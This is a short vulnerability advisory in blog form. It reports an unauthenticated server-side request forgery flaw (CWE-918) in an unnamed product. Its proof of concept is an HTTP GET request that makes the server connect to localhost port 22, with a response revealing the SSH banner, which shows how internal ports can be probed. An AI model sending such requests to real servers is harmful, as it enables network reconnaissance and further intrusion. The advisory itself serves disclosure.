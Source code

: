 ```yaml
---
layout: post
title:  "Server-side request forgery (SSRF)"
date:   2023-04-06 19:51:02 +0700 
categories: [cve]
---
```


* CVE ID: awaiting assignment
* CWE ID: CWE-918

... products server-side request forgery

#### Summary:

... products is vulnerable to server-side request forgery (SSRF). This may allow an unauthenticated attacker to send unauthorized requests from the system, potentially leading to network enumeration or facilitating other attacks.

#### Product:

...

#### Version:

...

#### Proof-of-Concept:

Web server is externally accessible; and permitted to invoke connections to internal hosts. The HTTP GET Request can be abused by unauthenticated attackers to cause the web server to connect to an arbitrary TCP port of an arbitrary host.

Responses returned are fairly verbose and can be used to infer whether a service is listening on the port specified.

Below is an example request to an localhost with open port:

Request:
{% highlight ruby %}
GET http://localhost:22/ HTTP/1.1
Host: [redacted]
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close

Response:

HTTP/1.1 200 OK
Date: Wed, 12 Oct 2022 01:47:04 GMT
Connection: close
Content-Type: text/plain
Content-Length: 38

SSH-2.0-OpenSSH_5.3Protocol mismatch.
{% endhighlight %}
